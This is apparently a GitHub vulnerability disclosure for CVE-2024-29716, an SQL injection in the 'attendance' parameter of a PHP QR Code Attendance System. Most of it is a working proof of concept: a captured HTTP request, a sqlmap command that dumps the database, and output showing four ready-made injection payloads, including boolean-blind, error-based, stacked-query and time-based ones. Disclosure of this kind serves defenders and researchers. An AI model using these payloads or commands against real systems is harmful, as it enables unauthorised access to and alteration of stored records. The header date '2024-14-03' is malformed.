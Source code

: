 # CVE-2024-29716 - QR Code Attendance System - SQL Injection -2
+ **Exploit Title:** CVE-2024-29716 - QR Code Attendance System - SQL Injection - 2 
+ **Date:** 2024-14-03
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17242/qr-code-attendance-system-using-php-and-mysql-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17242&title=QR+Code+Attendance+System+Using+PHP+and+MySQL+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-29716

## Description:
QR Code Attendance System  1.0 allows SQL Injection via the 'attendance' parameter in "http://localhost/qr-code-attendance-system/endpoint/delete-attendance.php?attendance=2". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/qr-code-attendance-system/index.php
+ Select any student and press the delete-attendance button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /qr-code-attendance-system/endpoint/delete-attendance.php?attendance=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
```

+ Use sqlmap to exploit. In sqlmap, use 'attendance' parameter to dump the database.
```
sqlmap -r r.txt -p attendance --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: attendance (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: attendance=2' RLIKE (SELECT (CASE WHEN (1274=1274) THEN 2 ELSE 0x28 END))-- NtYS

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: attendance=2' AND EXTRACTVALUE(1166,CONCAT(0x5c,0x7170786a71,(SELECT (ELT(1166=1166,1))),0x7170787871))-- czHx

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: attendance=2';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: attendance=2' AND (SELECT 7330 FROM (SELECT(SLEEP(5)))HjJP)-- Dlra
---
[19:19:26] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[19:19:26] [INFO] fetching current database
[19:19:26] [INFO] retrieved: 'qr_attendance_db'
current database: 'qr_attendance_db'
```
+ current database: `qr_attendance_db`

![Ekran görüntüsü 2024-03-14 022556](https://github.com/BurakSevben/CVEs/assets/117217689/c0c51301-073e-4285-8a63-9b17ab6ad066)
